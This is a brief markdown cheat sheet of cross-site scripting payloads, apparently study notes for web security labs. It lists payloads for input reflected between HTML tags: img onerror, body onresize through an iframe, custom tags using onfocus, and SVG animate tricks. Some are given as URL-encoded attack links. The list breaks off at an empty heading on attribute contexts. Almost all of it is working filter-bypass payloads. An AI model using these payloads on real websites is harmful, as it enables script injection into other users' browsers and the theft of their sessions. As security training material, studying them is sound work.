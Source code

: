 # Between HTML tags
## Exploits
- `<img src=1 onerror=alert(1)>`
- `<img src=1 onerror=alert(1)>`
- `<body onresize=print(1)>`
  `<iframe src="https://academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E" onload=this.style.width='1200px'>`
- `<superman onfocus='alert(1)' id='x' tabindex='1'>`, 
  `https://abc.com?search=%3Csuper-man+onfocus%3D%27alert%281%29%27+id%3D%27x%27+tabindex%3D1%3E#x`
- `<svg><a><animate attributeName=href values=javascript:alert(1) /><text>Click me</text>`
- `<svg><animatetransform onbegin=alert(1) attributeName=transform>`


```js
<h1> Your search result 'ControlledValue' </h1>
<p>ControlledValue</p>
<h1></h1>
<h1></h1>
<h1></h1>
<h1></h1>
```

## Inside tag attributes